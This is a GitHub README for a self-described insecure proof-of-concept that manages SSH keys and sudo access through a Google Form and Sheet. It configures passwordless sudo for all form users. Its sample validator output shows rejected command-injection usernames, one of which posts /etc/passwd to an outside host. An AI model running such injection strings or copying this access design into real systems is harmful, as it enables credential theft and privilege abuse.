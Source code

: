 # Gdocs User Manager
This script manages ssh user and sudo access via... GOOGLE DOCS!

The way this works is simple:

A user logs into their work gmail account. Once logged in, they can see a Google Form, which allows them to input the following three things for themselves:
  * full name
  * ssh username
  * ssh public key

![](http://i.imgur.com/PCLv7Hg.png)

After they submit their form, their information is automatically added to a spreadsheet

![](http://i.imgur.com/4xM9E4b.png)

Now all we need is a backend service that scrapes and verifies this spreadsheet :-)

An administer can also edit the spreadsheet and toggle some additional "hidden flags" that do things like purge a user from the system.

This is just a proof-of-concept and has security issues. Please don't use it for anything other than for fun.

For production you should use ldap + kerberos. That's the industry standard for managing ssh access.

## Why in the world...
This project was the result of brainstorming ideas for solving the following problems:

1. Allow an authenticated user to self-manage their ssh-keys
2. Allow an engineer with NO shell/linux experience to administer those users
3. Easily control access to those engineers
4. Be near real-time (less than 5 minutes from update to rollout)
5. Zero time from engineers spent rolling out keys

Google Forms/Sheets is actually a good choice for this project. Everyone knows how it works. It has incredible uptime and uses secure endpoints. It also has a well-documented API and allows for a staggering 10 million requests a day _for free_. That means you can have almost 7000 hosts update every minute using a free api key!

It also has some additional features that are useful for this task: a user can only submit data once. And once submitted, they can edit it at their on leisure. They don't have access to the backend spreadsheet, just their "answer".

The Form allowed a simple way for everyone in the organization to update (read: self-service) their own ssh-key key. It forced authentication and was about as easy to use as it gets.

The backend to Google Forms is actually just a spreadsheet that's easy to read and parse. Write access to the spreadsheet can be "shared" with someone else at the company and they can manage it without needing any linux experience.

## Requirements
You'll need the following things:
1. The script in this repo
2. The install script.
3. A google API user w/ credentials

## Let's get started
### Create the Google Form
You'll need to create a form that has the following text boxes. These are case sensitive so please make sure they match exactly. Or you can change the lines in the script to be your custom field.

* ```SSH username```
* ```SSH Public Key```

On the document, make sure you check only the following two boxes. Note, in the picture you don't see some of the boxes because the form wasn't made with a business account:
* Require <ORGANIZATION> login to view this form
* Automatically collect respondent's <ORGANIZATION username
* Only allow one response per person (requires login)
* Allow responders to edit responses after submitting

Name your document and save the name, you'll use it later on when setting environment variables.

Lastly, you'll want to edit the "answers" spreadsheet. Add a column that says "purge". If you put an ```x``` in this field, then the user will automatically be purged from the system even if they update their key.

### Create a Google API key
While logged into your organizational email, you'll need to create an API key and then activate google drive API
1. Log into the gmail account that you want to use with this service
2. Go to the Google Developer's Console: https://code.google.com/apis/console
3. Click on "Credentials" under "APIs & auth"
4. Click "Create new Client ID"

That will download your credentials file, which has the necessary information to make API calls out to Google. Download that file and keep it safe.

After that you'll need to authorize the google drive API
1. Click on "APIs" under "APIs & auth"
2. Search for "Drive API" and click on it
3. Click "activate"

### Share the Form backend with your API email
This step is important or else you won't be able to see any documents when you make API calls.

Find the Google spreadsheet that's created automatically by your Form. The title of this document is what you'll set the environment variable ```DOCUMENT_TITLE``` to on your system.

While you have the document open, share it with the email address that's provided in your credentials file. Again, this step is important! Or else you'll look for documents with the API and won't find any!

You'll see that your backend form is a really simple excel spreadsheet:

### Install the packages
If you're running ubuntu you can simply execute the install script:
```bash
$ ./install_on_ubuntu
...
```

### Set your sudoers file to allow sudo without password
Create a new file called ```/etc/sudoers.d/usermanager and add the following line:
```
%sudo ALL=NOPASSWD: ALL
```

This will allow users to who part of the "sudo" group to sudo without passwords. This isn't strictly necessary but the script automatically adds users to this group.

### Set your environment variables
This script uses the environment variable ```CREDENTIALS_FILE```. This variable must be a full-path to your credentials file that you got back from Google.

The second variable you'll need to set is ```DOCUMENT_TITLE```. This is the the name of the spreadsheet that serves as the "backend" to your Google form. For example ```SSH Access Request```.

## Phew. All set up.
Take a deep breath and hold on to you butts. The script should execute without any problems. It will add users if they are specified in the document.

```
[WARNING] Adding stephen to system
[WARNING] Adding Alice to system
[WARNING] Adding Frank to system
```

If somebody used a non-safe username, then you'll see errors like this:
```
[WARNING] Invalid user "; touch /tmp/pwned". Username must contain letters only!
[WARNING] Invalid user "; curl -XPOST http://mydomain.com -d@/etc/passwd". Username must contain letters only!
```

# Last words and warnings
I want to reiterate again that this was just a fun experiment and not fit for production. I do think there's value to using forms such as this and the API to scrape and do things with data, but not for ssh user access.

There are a few security issues:
1. Almost without exception should you never shell-out with user-supplied data.
2. There's no granularity. This grants sudo access to everyone who can submit a form
3. I did my best to sanitize the user inputs, but I don't trust it. Does anyone know of a better python library for this?
